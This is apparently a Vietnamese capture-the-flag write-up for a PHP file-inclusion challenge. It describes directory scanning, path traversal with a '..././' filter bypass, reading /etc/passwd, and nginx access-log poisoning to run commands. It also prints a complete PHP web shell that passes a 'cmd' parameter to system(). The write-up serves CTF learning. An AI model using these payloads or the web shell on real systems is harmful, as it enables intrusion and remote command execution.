

# LOCAL FILE INCLUSION TO RMOTE FILE INCLUSION 

[link chanllenge](https://battle.cookiearena.org/challenges/web/php-inclusion-to-rce)

### Giao điện
>  đây là giao diện của challnge

cái này nó chỉ có 1 chức năng thôi ! 
là button *What is CTF ? 
nó đọc file dựa vào trên URl

*Dùng dirsearch xem nó có thư mục khác không ? 

không có gì để thử 
đọc file qua param thử chọc path traversal xem có dính ko ? 
thử ``` ../../``` xem 

có vẻ nó đã không hoạt động , mình lùi 2 cấp mà vẫn đọc được file ctf.txt 
thử dùng encoding xem 
``` %2e%2e%2f```

vẫn ko được :> có vẻ nó đang dùng blacklist và không encoding 
thường nó sẽ dùng blacklíst  ```../``` replace cái này trong input 
thử thành  ```..././``` và nó sẽ thành ```../```sau khi xóa blacklist

và nó đã ko đọc được file ctf.txt 
chứng tỏ mình đã thành công ! 
hint : là tìm trong root đi 

ok nãy thấy dùng dirsearch thấy có 1 file /file thôi , lùi 2 cấp là ra được root  thử đọc ```etc/passwd``` xem được không ? 

ok rùi => đọc file flag.txt thôi 

méo đọc được anh em ạ :> , chắc là nó có tên khác ? 
> tên khác thì mình biết thế nào được mà xem :>>>
xem được tên khác mà vul là file path thì RCE thử xem => lên mạng nhặt 1 file shell php vứt vào index xem được ko ? 
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
code link vứt vào input xem sao ! 

vẫn không chạy anh em ạ :> 
trường hợp không chạy  ? 
- 
là tham số ```ALLOW_URL```bằNG OFF
2 là hàm đọc này nó ko cho remote url 
có thể là ```fopen```
và biết server nó là ngnix 
và đọc được file log của nó ! 
``` /var/log/nginx/access.log```

:> đây là thử gửi 1 request lên mà trong các trường http header của mình chứa code php mà hàm đọc này có chức năng execute thì -> sử dụng shell xem được tên của flag mới 

và giờ kiểm tra log thôi , nhớ thêm ```&cmd=ls /``` để chạy os commnad 
đây là request vừa gửi lên 

giờ request đó đã chứa code php chỉ chờ $_GET  có value trên URL 

giờ đã có tên mới flag ->  mở thôi ! 

